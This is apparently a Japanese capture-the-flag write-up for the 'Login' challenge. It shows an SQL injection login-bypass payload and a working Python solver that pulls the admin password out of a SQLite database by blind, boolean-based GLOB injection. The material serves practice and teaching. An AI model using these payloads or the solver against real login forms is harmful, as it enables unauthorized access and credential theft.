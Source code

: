 ## Login (120pt)
> http://ctfq.u1tramarine.blue/q6/  
> https://ctfq.u1tramarine.blue/q6/

アクセスすると、簡素なログイン画面が表示される。
![](images/img1.png)

とりあえずIDは`admin`、Passは`a' OR 'a' == 'a'; --`としてSQLインジェクションしてみると、今度はこんなページが現れる。
![](images/img2.png)

つまり、`database.db`からどうにかしてadminのパスワードを引っ張り出してくる必要がある。（そのままアクセスしようとしても403を返されるため、SQLを介する必要がある）しかし、DBへの問合せ結果を出力する処理は見当たらないため、単純な`SELECT`では効果が無い。  
どうすれば良いのだろうかと詳解セキュリティコンテストを読んでいたら、Booleanベースの攻撃というものがあるらしい。`LIKE`などのゆるい文字列比較を用いて`TRUE`となる文字列を一文字ずつ探索していく、いわゆる総当たり的な手法である。なお、今回用いられているDB管理システムはsqliteなので、`GLOB`を使う。IDとPassは`POST`で送信しているので、返ってくるHTMLに`Congratulations!`が含まれていれば`TRUE`判定されたとみなすことができる。  
方針が定まったのでソルバを書く。なお、書くにあたってhttps://qiita.com/kk0128/items/3907045802c9b95e7c21 をかなり参考にさせてもらった。
```python
import sys
import requests
from string import printable

url = 'https://ctfq.u1tramarine.blue/q6/'
id_input = 'admin'
flag = ''

while True:
    for char in printable.replace('*', '').replace('?', ''):
        payload = {
            'id': id_input,
            'pass': f"a' OR pass GLOB '{flag}{char}*';"
        }
        response = requests.post(url, data=payload)

        if 'Congratulations!' in response.text:
            flag += char
            print(f'HIT, {flag}')
            payload_2 = {
                'id': id_input,
                'pass': flag
            }
            response_2 = requests.post(url, data=payload_2) # 現在のflagでログインが通るか？
            if 'Congratulations!' in response_2.text:
                sys.exit('Found a flag')    # ログイン成功=フラグ完成 として終了
```

実行してみたところ、2分30秒くらいでフラグが完成した。やり方次第ではもう少し早くできるのかもしれない。